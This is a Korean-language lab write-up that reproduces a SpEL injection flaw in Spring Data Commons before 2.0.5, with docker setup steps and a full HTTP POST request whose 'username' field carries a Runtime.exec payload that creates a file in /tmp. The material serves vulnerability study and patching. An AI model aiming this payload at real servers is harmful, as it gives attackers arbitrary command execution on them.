

### 요약
- Spring Data: DB Access를 단순화하고 클라우드 서비스를 지원하기 위한 오픈 소스 프레임워크
- Spring Data Commons: Spring Data의 모든 하위 프로젝트 공유를 위한 기본 프레임워크
- Spring Data Commons 2.0.5 이전 버전에서는 공격자가 임의의 명령을 실행하기 위하여 악의적인 spEL(Spring Expression Language) 표현을 주입 가능

### 환경 구성 및 실행
1. `docker compose up -d` 커맨드 실행 (spring-data-commons:2.0.5 이미지 사용)
2. `pip install requests` 커맨드 실행
3. `python3 poc.py` 커맨드 실행
4. `docker compose exec spring bash` 커맨드 실행
5. `ls /tmp` 커맨드 실행

### poc.py

아래 내용의 http request를 `http://[ip 주소]:8080/users` 로 전송
```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

위 내용의 패킷을 전송할 시 원하는 명령을 시행할 수 있으므로, poc.py를 실행하는 대신 proxy 도구를 이용하여 패킷 정보를 변경 후 전송하여도 취약점을 확인할 수 있다.

### 결과


### 정리
Spring Data Commons 2.0.5 이전 버전에서는 공격자가 원하는 명령을 주입하여 실행 가능하므로 악용될 시 보안에 심각한 위협을 초래할 수 있다.
따라서 주기적으로 버전을 확인하고 업데이트하는 것이 중요하다.